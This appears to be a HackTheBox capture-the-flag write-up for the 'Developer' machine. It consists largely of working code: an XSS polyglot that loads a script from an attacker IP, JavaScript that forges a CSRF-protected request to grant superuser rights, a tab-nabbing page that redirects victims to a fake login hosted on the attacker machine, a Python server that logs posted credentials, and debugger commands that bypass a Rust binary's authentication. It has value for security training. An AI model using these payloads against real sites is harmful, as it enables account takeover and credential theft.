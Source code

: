 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/iSADo2TqbOs/0.jpg
layout: post
media_subpath: /assets/posts/2022-01-15-xss-tab-nabbing-rust-reversing-developer-hackthebox
tags:
- reversing
- rust
- sentry
- tab nabbing
- xss
title: XSS, Tab Nabbing & Rust Reversing – Developer @ HackTheBox
---
```


We are going to solve Developer, a pretty hard Linux machine on HackTheBox. It involves Cross-Site-Scripting, Tab Nabbing & reversing a rust binary.

{% youtube iSADo2TqbOs %}

## XSS

**Trigger**

```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=document.write('<script src=http://10.10.14.27/payload.js></script>') )//
```

**Promote User to Admin**

```js
xhr = new XMLHttpRequest();

xhr.onload = function() {
  var x = new XMLHttpRequest();
  var r = xhr.response;
  var csrftoken2 = xhr.responseText.replace(/[\r\n]/g, ' ').match(/value="\w+"/)[0];
  csrftoken2 = csrftoken2.substring(7,csrftoken2.length-1);
  console.log(csrftoken2);

  var uri ="http://developer.htb/admin/auth/user/8/change/";
  x = new XMLHttpRequest();
  x.open("POST", uri, true);
  x.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  x.send("csrfmiddlewaretoken="+csrftoken2+"&username=xctde&first_name=changed&last_name=&email=&is_active=on&is_staff=on&is_superuser=on&last_login_0=&last_login_1=&date_joined_0=2021-08-21&date_joined_1=22%3A01%3A19&initial-date_joined_0=2021-08-21&initial-date_joined_1=22%3A01%3A19&_save=Save");
}
xhr.open("GET", 'http://developer.htb/admin/auth/user/8/change');
xhr.send(null);
```

## Tab Nabbing

**HTML Payload**

```html
<html>
 <body>
  <script>
  if (window.opener) window.opener.parent.location.replace('http://10.10.14.27/accounts/login/');
  if (window.parent != window) window.parent.location.replace('http://10.10.27/accounts/login/');
  </script>
 </body>
</html>
```

**Python Server**

```python
#!/usr/bin/env python3

import http.server as SimpleHTTPServer
import socketserver as SocketServer

class StoppableHTTPServer(SimpleHTTPServer.HTTPServer):
    def run(self):
        try:
            self.serve_forever()
        except KeyboardInterrupt:
            pass
        finally:
            self.server_close()

class CustomHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):

    def do_GET(self):
        print(self.headers)
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

    def do_POST(self):
        print(self.headers)
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        print(post_data)

server = StoppableHTTPServer(("", 80), CustomHandler)
server.run()
```

## Debugging

**Commands & Breakpoints**

```
# Breakpoints
break *'authentication::main'+0x103
break *'authentication::main'+0x21E

# Flip Zero Flag
set $ZF = 6 
set $eflags |= (1 << $ZF)

# Zero Byte Fill Memory Area
call memcpy(0x5555555b5a10 , "\x00", 32)

# Crypto / Registers
pwndbg> p/x $xmm0.uint128
$15 = 0x23205cfc58fd8078ca976a80f0251bfe
pwndbg> p/x $xmm1.uint128
$16 = 0x2c15279f3aafc0ebfab502e5d0dba26c
pwndbg> p/x $xmm2.uint128
$17 = 0x635928952a88e31d99e505c684566eac 
pwndbg> p/x $xmm0.uint128
$18 = 0x52f16ad0a9c63289fc56d89b5adc728 
```

**XOR & Endianess**

[Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'Hex','string':'635928952a88e31d99e505c684566eac052f16ad0a9d80999fc56d89b5adc728'%7D,'Standard',false)Swap_endianness('Raw',16,true)&input=MjMyMDVjZmM1OGZkODA3OGNhOTc2YTgwZjAyNTFiZmUyYzE1Mjc5ZjNhYWZjMGViZmFiNTAyZTVkMGRiYTI2Yw)
